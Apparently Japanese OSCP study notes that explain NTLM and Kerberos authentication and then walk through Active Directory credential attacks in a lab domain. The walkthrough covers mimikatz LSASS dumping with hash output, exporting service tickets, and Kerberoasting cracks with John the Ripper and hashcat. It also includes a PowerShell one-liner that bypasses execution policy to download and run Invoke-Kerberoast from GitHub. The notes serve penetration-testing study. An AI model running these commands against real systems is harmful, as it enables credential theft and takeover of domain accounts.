

## Active Directory Authentication

### NTLM認証

* IPアドレスでサーバー認証をする場合
* Active Directory の統合 DNS サーバに登録されていないホスト名に対して認証を行おうとする場合

に使用される。


nonce(チャレンジ)をNTLMで暗号化したものをDCに送り、DCではNTLMを持っているので同様の暗号化を行って一致するかどうかで認証を行う

### ケルベロス認証

* DCがKDC（認証局として認証を行う）
* TGTをKDCが発行し、クライアントはSPNとともにTGSを依頼する
* TGSでサーバーに認証をクライアントが依頼する




ここで、このプロセスを詳細に確認し、今後の議論の土台としましょう。

例えば、ユーザーがワークステーションにログインすると、KDCの役割を持ち、 Authentication Serverサービスを維持するドメインコントローラーにリクエストが送信される。この認証サーバーリクエスト(AS_REQ)には、ユーザー2 のパスワードとユーザー名から得られるハッシュを使用して暗号化されたタイムスタンプが含まれる。

ドメインコントローラーはリクエストを受け取ると、特定のユーザーに関連するパスワードハッシュを検索し、タイムスタンプの解読を試みる。復号化処理が成功し、タイムスタンプが重複していない場合（リプレイ攻撃の可能性）、認証は成功したとみなされる。

ドメインコントローラは、セッションキー(Kerberosはステートレスなので)とチケット付与チケット(TGT)を含む認証サーバー応答(AS_REP)でクライアントに返信する。セッションキーはユーザーのパスワードハッシュを使用して暗号化されており、クライアントが復号して再利用することができる。TGTは、グループメンバー、ドメイン、タイムスタンプ、クライアントのIPアドレス、およびセッション鍵を含む、ユーザーに関する情報を含んでいます。

改ざんを防ぐため、チケット付与券はKDCだけが知っている秘密鍵で暗号化されており、クライアントが復号化することはできない。クライアントがセッションキーとTGTを受け取ると、KDCはクライアント認証が完了したと見なす。デフォルトでは、TGTは10時間有効で、その後更新が行われる。この更新では、ユーザがパスワードを再入力する必要はない。

ユーザーがネットワーク共有、Exchangeメールボックス、または登録されたサービスプリンシパル名を持つ他のアプリケーションなど、ドメインのリソースにアクセスしたい場合、再度KDCに連絡する必要があります。

このときクライアントは、現在のユーザーとタイムスタンプ（セッションキーを使用して暗号化）、リソースのSPN、および暗号化されたTGTからなるチケット付与サービス要求（またはTGS_REQ）パケットを構築します。

次に、KDC上のチケット付与サービスがTGS_REQを受信し、SPNがドメイン内に存在する場合、KDCだけが知っている秘密鍵を用いてTGTを復号する。その後、セッションキーがTGTから抽出され、ユーザー名とリクエストのタイムスタンプを復号化するために使用されます。この時点で、KDCはいくつかのチェックを実行する。

1. TGTは有効なタイムスタンプを持っていなければならない(リプレイが検出されず、 リクエストが期限切れになっていない)。
2. TGS_REQからのユーザー名はTGTからのユーザー名と一致しなければならない。
3. クライアントのIPアドレスは、TGTのIPアドレスと一致する必要があります。

この検証プロセスに成功した場合，チケット付与サービスはクライアントにTicket Granting Server ReplyまたはTGS_REPで応答する．このパケットには3つの部分があります。

1. アクセスを許可された SPN。
2. クライアントと SPN の間で使用されるセッション キー。
3. ユーザー名とグループメンバー、および新しく作成されたセッションキーを含むサービスチケット。

最初の2つの部分（SPNとセッションキー）は、TGTの作成に関連するセッションキーを使用して暗号化され、サービスチケットは当該SPNで登録されたサービスアカウントのパスワードハッシュを使用して暗号化されます。

KDCによる認証処理が完了し、クライアントがセッションキーとサービスチケットの両方を取得すると、サービス認証が開始されます。

まず、クライアントはアプリケーションサーバに対して、サービスチケットに関連付けられたセッションキーで暗号化されたユーザ名とタイムスタンプを含むアプリケーションリクエスト（AP_REQ）を、サービスチケット本体とともに送信します。

このプロトコルは、一見複雑そうに見えますが、様々なネットワーク攻撃を軽減し、偽の認証情報の使用を防ぐために設計されています。

### クレデンシャルの抽出

* kerberos実装はSSOを採用しているためパスワードハッシュをクライアントに保存する必要がある。これらのハッシュは**Local Security Authority Subsystem Service (LSASS)1** のメモリスペースに格納されている

* mimikatzをスタンドアロン・アプリケーションとして実行するのではなく、PowerShell4などのインジェクタを使用してメモリから直接Mimikatzを実行するかタスクマネージャなどの組み込みツールを使用してLSASSプロセスのメモリ全体をダンプし、ダンプしたデータをヘルパーマシンに移動して、そこからデータをMimikatzにロードする方法などがある。

  https://github.com/gentilkiwi/mimikatz

  4: https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1 [↩︎](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/active-directory-attacks/active-directory-authentication/cached-credential-storage-and-retrieval#fnref4)

  5: https://fuzzysecurity.com/tutorials/18.html

* NTLMハッシュの取得

  ※`privilege::debug`でSeDebugPrivlege7 権限を設定

  ```cmd
  mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords
  
  ---
  Authentication Id : 0 ; 687028 (00000000:000a7bb4)
  Session           : RemoteInteractive from 2
  User Name         : offsec
  Domain            : corp
  Logon Server      : DC01
  Logon Time        : 1/9/2023 4:29:24 AM
  SID               : S-1-5-21-4038953314-3014849035-1274281563-1103
          msv :
           [00000003] Primary
           * Username : offsec
           * Domain   : corp
           * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
           * SHA1     : a188967ac5edb88eca3301f93f756ca8e94013a3
           * DPAPI    : c9908721e77bed34ce549998baa6cebb
          tspkg :
          wdigest :
           * Username : offsec
           * Domain   : corp
           * Password : (null)
          kerberos :
           * Username : offsec
           * Domain   : CORP.COM
           * Password : (null)
          ssp :
          credman :
  ```

* チケットの取得

  ```cmd
  mimikatz.exe
  privilege::debug
  sekurlsa::tickets
  
  ---
  ---
  Authentication Id : 0 ; 678709 (00000000:000a5b35)
  Session           : RemoteInteractive from 2
  User Name         : offsec
  Domain            : corp
  Logon Server      : DC01
  Logon Time        : 1/9/2023 2:39:16 PM
  SID               : S-1-5-21-4038953314-3014849035-1274281563-1103
  
           * Username : offsec
           * Domain   : CORP.COM
           * Password : (null)
  
          Group 0 - Ticket Granting Service
  
          Group 1 - Client Ticket ?
  
          Group 2 - Ticket Granting Ticket
  
  Authentication Id : 0 ; 678660 (00000000:000a5b04)
  Session           : RemoteInteractive from 2
  User Name         : offsec
  Domain            : corp
  Logon Server      : DC01
  Logon Time        : 1/9/2023 2:39:16 PM
  SID               : S-1-5-21-4038953314-3014849035-1274281563-1103
  
           * Username : offsec
           * Domain   : CORP.COM
           * Password : (null)
  
          Group 0 - Ticket Granting Service
           [00000000]
             Start/End/MaxRenew: 1/9/2023 2:39:16 PM ; 1/10/2023 12:39:16 AM ; 1/16/2023 2:39:16 PM
             Service Name (02) : LDAP ; DC01.corp.com ; corp.com ; @ CORP.COM
             Target Name  (02) : LDAP ; DC01.corp.com ; corp.com ; @ CORP.COM
             Client Name  (01) : offsec ; @ CORP.COM ( CORP.COM )
             Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
             Session Key       : 0x00000012 - aes256_hmac
               c61a8f5324a8e49d26ec18a8c9f3d3bd7a53fd2d69303cbf66fdc154de64b071
             Ticket            : 0x00000012 - aes256_hmac       ; kvno = 13       [...]
  
          Group 1 - Client Ticket ?
  
          Group 2 - Ticket Granting Ticket
           [00000000]
             Start/End/MaxRenew: 1/9/2023 2:39:16 PM ; 1/10/2023 12:39:16 AM ; 1/16/2023 2:39:16 PM
             Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
             Target Name  (02) : krbtgt ; corp ; @ CORP.COM
             Client Name  (01) : offsec ; @ CORP.COM ( corp )
             Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
             Session Key       : 0x00000012 - aes256_hmac
               1d2daecba0f992ed3ac1b171e485b831f8d033e015dda32dbe9adae677b8f877
             Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
  ```


* サービスチケットの要求

  * サービスチケットはSPNのパスワードハッシュによって暗号化されているため、アプリケーションサーバーによって復号化され、検証される
  * ドメインコントローラーからサービスチケットを要求する際、ユーザーがサービスプリンシパル名でホストされるサービスにアクセスする権限を持っているかどうかのチェックは行われません。これらのチェックは、サービス自体に接続するときのみ、第二段階として実行される
  * サービスチケット要求（PS）

  ```
  Add-Type -AssemblyName System.IdentityModel
  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
  ```

  * 確認

    ```
    PS C:\Users\offsec> klist
    
    ---
    #1>	Client: offsec @ CORP.COM
    	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
    	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
    	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate nam
    e_canonicalize 
    	Start Time: 1/9/2023 15:12:49 (local)
    	End Time:   1/10/2023 1:12:49 (local)
    	Renew Time: 1/16/2023 15:12:49 (local)
    	Session Key Type: RSADSI RC4-HMAC(NT)
    	Cache Flags: 0 
    	Kdc Called: DC01.corp.com
    ```

  ※実行は同一のセッションで行う必要があると思う

* mimikatzで抽出

  ダウンロードするために`/export`を指定する

  ```
  .\mimikatz.exe
  kerberos::list /export
  ```

  .kirbiの形式で保存される
  
* kirbiファイルをkaliに配送する

* kerberoastでパスワードクラックする

  Kerberos プロトコルによると、サービスチケットは SPN のパスワードハッシュを使用して暗号化されており、復号化できればパスワードハッシュを知ることができ、そこからサービスアカウントの平文パスワードを解読できる。

  ```bash
  kali@kali:~$ sudo apt update && sudo apt install kerberoast
  ...
  kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
  found password for ticket 0: Qwerty09!  File: 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
  All tickets cracked!
  ```

  →これでHTTPサービスにログインができるようになる。

* john the ripperでクラックする場合

  https://www.cobalt.io/blog/kerberoast-attack-techniques

  * kirbiファイルをjohn the ripperのフォーマットに変更する

    ```bash
    kirbi2john 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi -o crack_file
    ```

  * 実行する

    ```bash
    ┌──(kali㉿kali)-[~/Documents/OSCP/21.ActiveDirectoryAttacks]
    └─$ john --format=krb5tgs crack_file --wordlist=wordlist.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Warning: Only 1 candidate left, minimum 2 needed for performance.
    Qwerty09!        (?)     
    1g 0:00:00:00 DONE (2023-01-10 19:47) 50.00g/s 50.00p/s 50.00c/s 50.00C/s Qwerty09!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    
    ```


### Kerberoust

https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1?

```bash
python -m http.server 6666 -d /usr/share/powershell-empire/empire/server/data/module_source/credentials/
```

```powershell
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash｜out-file -Encoding ASCII kerb-Hash0.txt".
```

上記のコマンドでDCに登録されているユーザのハッシュを列挙できる。複数いる場合は`net user /domain <ユーザ名>`で権限を調べてからパスワードクラックに臨むとよい

```
hashcat65.exe -m 13100 hash.txt wordlist.txt outputfile.txt
```

